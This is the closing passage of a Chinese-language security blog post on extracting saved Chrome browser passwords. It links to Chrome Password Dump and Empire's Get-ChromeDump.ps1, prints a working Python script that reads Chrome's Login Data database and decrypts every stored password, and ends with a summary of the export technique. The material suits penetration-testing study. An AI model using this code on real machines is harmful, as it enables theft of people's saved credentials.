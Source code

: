 
## 0x05 开源工具
---

解密当前系统下Chrome浏览器中保存的密码，可供参考的工具：

1. 命令行工具Chrome Password Dump，下载地址：

http://securityxploded.com/chrome-password-dump.php

2. powershell实现的工具：

https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/collection/Get-ChromeDump.ps1

3. python实现代码，可供参考的开源代码：

```
from os import getenv
import sqlite3
import win32crypt
import binascii
conn = sqlite3.connect(getenv("APPDATA") + "\..\Local\Google\Chrome\User Data\Default\Login Data")
cursor = conn.cursor()
cursor.execute('SELECT action_url, username_value, password_value FROM logins')
for result in cursor.fetchall():
    password = win32crypt.CryptUnprotectData(result[2], None, None, None, 0)[1]
    if password:
        print 'Site: ' + result[0]
        print 'Username: ' + result[1]
        print 'Password: ' + password
    else:
        print "no password found"
```

## 0x06 小结
---

本文介绍了导出Chrome浏览器密码的原理和利用方法，成功解决一个实际问题： `通过加密密钥文件和用户明文密码，能够导出另一系统下Chrome浏览器中保存的密码`

如果只获得了用户密码hash，能否导出呢？


---


[LEAVE A REPLY](https://github.com/3gstudent/feedback/issues/new)



